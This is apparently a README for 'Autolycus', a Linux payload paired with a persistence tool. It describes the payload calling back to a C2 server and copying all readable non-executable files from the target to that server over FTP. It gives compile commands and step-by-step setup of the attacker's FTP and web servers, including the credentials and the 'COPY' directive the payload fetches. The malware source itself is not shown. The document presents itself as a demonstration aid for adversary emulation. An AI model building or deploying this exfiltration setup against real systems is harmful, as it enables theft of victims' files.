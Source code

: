 # Linux Payload: Autolycus

### Description

This is an example of a payload that can be used against a Linux based target in conjunction with the Nekrosis application. If Nekrosis is being used to demonstrate how an adversary could achieve persistence, this payload can be used to demonstrate the kind of code an adversary may deploy with their unauthorized access. This payload will call back to the C2 server to receive an instruction directive and will then proceed to recurse over the file system, copying all readable non-executable files to the C2 server over FTP.

### Compilation

In the source code you must change all instances of "ADDRESS:PORT" with the appropriate information.

```shell [Command Line]
sudo apt install libcurl4-openssl-dev
gcc main.c -o main -s -lcurl
```

### Configuring the C2 Server

The following setup was successfully tested in Kali Linux. Both the web server and the VSFTPD server must be accessible by the target.

1. Setting up the VSFTPD server:

Installing VSFTPD:
```shell [Command Line]
sudo apt update && sudo apt install vsftpd
```
Creating the dedicated user:
```shell [Command Line]
sudo useradd test && sudo passwd test
```
Creating their home directory (that will be used as the local_root directory for FTP):
```shell [Command Line]
sudo mkdir /home/test && sudo chown test:test /home/test
```
The /etc/vsftpd.conf file needs to be edited to contain the following lines:
```shell [Command Line]
write_enable=YES
listen_port=[PORT]
userlist_deny=NO
userlist_enable=YES
userlist_file=/etc/vsftpd.userlist
pasv_min_port=[PORT]
pasv_max_port=[PORT]
local_root=/home/test/
```
The userlist should contain the dedicated user:
```shell [Command Line]
sudo touch /etc/vsftpd.userlist && sudo echo "test" >> /etc/vsftpd.userlist
```
Reload the service for the changes to take effect:
```shell [Command Line]
sudo systemctl restart vsftpd
```
Lastly, if this server will be running on a machine that is publicly accessible via SSH it is recommended to add the following line to /etc/ssh/sshd_config:
```shell [Command Line]
DenyUsers test
```

2. Setting up the web server:

Adding the dedicated user's credentials and the instruction directive:
```shell [Command Line]
echo "username" >> username.txt
```
```shell [Command Line]
echo "password" >> password.txt
```
```shell [Command Line]
echo "COPY" >> instruction.txt
```
Serving the files for the payload to see:
```shell [Command Line]
python -m http.server 8080
```

With these servers properly configured and accessible by the target the payload will have what it needs to execute the COPY directive. It is highly encouraged not to deploy this payload over the public internet particularly if there may be sensitive information on the victim.
